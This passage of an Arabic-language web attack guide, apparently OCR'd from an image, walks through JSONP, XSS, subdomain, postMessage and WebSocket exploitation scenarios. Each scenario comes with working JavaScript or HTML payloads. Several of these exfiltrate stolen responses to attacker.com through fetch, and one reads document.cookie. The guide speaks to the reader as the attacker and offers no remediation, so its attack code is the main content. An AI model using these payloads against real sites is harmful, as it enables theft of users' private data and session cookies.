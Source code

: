 #### **سيناريو 2: استغلال JSONP**
- **الوصف**: موقع بيدعم JSONP بدون تحقق.
- **الاستغلال**:
  - أنشئ وسم `<script>`:
    ```html
    <script src="https://example.com/api/data?callback=stealData"></script>
    <script>
      function stealData(data) {
        fetch('https://attacker.com/steal?data=' + encodeURIComponent(JSON.stringify(data)));
      }
    </script>
    ```
  - البيانات هتتسرق لو JSONP رجّع بيانات حساسة.

#### **سيناريو 3: استغلال XSS**
- **الوصف**: ثغرة XSS في الموقع بتخليك تنفذ كود في سياق الموقع.
- **الاستغلال**:
  - أدخل كود JavaScript:
    ```javascript
    fetch('https://example.com/api/private-data', { credentials: 'include' })
      .then(r => r.text())
      .then(d => fetch('https://attacker.com/steal?data=' + encodeURIComponent(d)));
    ```
  - الكود هيسرق البيانات ويبعتها لسيرفرك.

#### **سيناريو 4: استغلال Subdomain**
- **الوصف**: نطاق فرعي (مثل `sub.example.com`) فيه ثغرة XSS أو CORS ضعيف.
- **الاستغلال**:
  - استخدم XSS في النطاق الفرعي للوصول لبيانات الموقع الرئيسي:
    ```javascript
    document.cookie; // سرقة Cookies
    fetch('https://example.com/api/data').then(r => r.text()).then(d => alert(d));
    ```

#### **سيناريو 5: استغلال PostMessage**
- **الوصف**: الموقع بيستخدم `postMessage` بدون تحقق من المصدر.
- **الاستغلال**:
  - أرسل رسالة خبيثة:
    ```html
    <script>
      window.open('https://example.com').postMessage('fetch("/api/private-data").then(r=>r.text()).then(d=>alert(d))', '*');
    </script>
    ```
  - الكود هينفذ في سياق الموقع ويسرق البيانات.

#### **سيناريو 6: استغلال WebSockets**
- **الوصف**: WebSocket في الموقع مش بيتحقق من المصدر.
- **الاستغلال**:
  - أنشئ WebSocket من موقعك:
    ```javascript
    var ws = new WebSocket('wss://example.com/socket');
    ws.onmessage = function(event) {
      fetch('https://attacker.com/steal?data=' + encodeURIComponent(event.data));
    };
    ws.send('malicious data');
    ```
  - لو نجح، هتقدر تسرق البيانات أو تنفذ أوامر.
